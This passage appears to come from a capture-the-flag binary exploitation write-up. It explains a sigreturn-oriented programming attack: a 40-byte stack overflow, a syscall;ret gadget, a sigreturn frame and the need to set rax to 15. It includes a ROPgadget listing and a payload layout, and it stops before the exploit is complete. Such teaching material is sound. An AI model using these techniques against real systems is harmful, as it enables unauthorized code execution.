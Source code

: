 We can rewrite the `ret` address of the `vuln` function through an overflow after the first 40 bytes in order to control code execution (we will call this **vuln_ret**), but, where do we jump to, or what do we do? Again, we cannot put shellcode on the stack, so we are very limited.

## `sigreturn` Syscall
What we could do is call [sigreturn](https://man7.org/linux/man-pages/man2/sigreturn.2.html):

```
...

This sigreturn() call undoes everything that was done—changing
the process's signal mask, switching signal stacks (see
sigaltstack(2))—in order to invoke the signal handler.  Using the
information that was earlier saved on the user-space stack
sigreturn() restores the process's signal mask, switches stacks,
and restores the process's context (processor flags and
registers, including the stack pointer and instruction pointer),
so that the process resumes execution at the point where it was
interrupted by the signal.
```

If we manage to put such an information struct on the stack and call `sigreturn`, we can control all the CPU registers and we would have a lot more leverage.

We can just replace the **vuln_ret** with a gadget that just calls `syscall` and then `ret` (so we can continue our rop chain), and right after this, put the `sigreturn` frame. We have such a gadget here, at `0x401014`:
```
401014:       0f 05                   syscall 
401016:       c3                      ret    
```

So our payload for the read would look like this:
```
...stack][AAAA...AAAA (40 times)][syscall_ret (0x401014)][sigreturn frame][stack...
```

But there's one issue: the `rax` register decides what syscall will be called. `sigreturn`'s number is 15 or 0x0f. So before getting to the `syscall_ret` gadget, we should have the number 15 in the `rax` register. Fortunately, for the `sigreturn` syscall we don't need to change the other registers, but how can we set the `rax` register to 15? Running `ROPgadget`, we don't find anything:
```
Gadgets information
============================================================
0x0000000000401012 : and al, 0x10 ; syscall
0x000000000040100d : and al, 8 ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x0000000000401044 : call qword ptr [rax + 0x41]
0x000000000040104c : dec ecx ; ret
0x000000000040100c : je 0x401032 ; or byte ptr [rax - 0x75], cl ; push rsp ;
 and al, 0x10 ; syscall
0x0000000000401023 : je 0x401049 ; or byte ptr [rax - 0x75], cl ; push rsp ;
 and al, 0x10 ; syscall
0x0000000000401054 : jmp 0x40104f
0x000000000040104d : leave ; ret
0x0000000000401010 : mov edx, dword ptr [rsp + 0x10] ; syscall
0x000000000040100b : mov esi, dword ptr [rsp + 8] ; mov rdx, qword ptr [rsp 
+ 0x10] ; syscall
0x000000000040100f : mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100e : or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 
; syscall
0x0000000000401011 : push rsp ; and al, 0x10 ; syscall
0x0000000000401016 : ret
0x0000000000401049 : retf 0xffff
0x0000000000401014 : syscall

Unique gadgets found: 16
```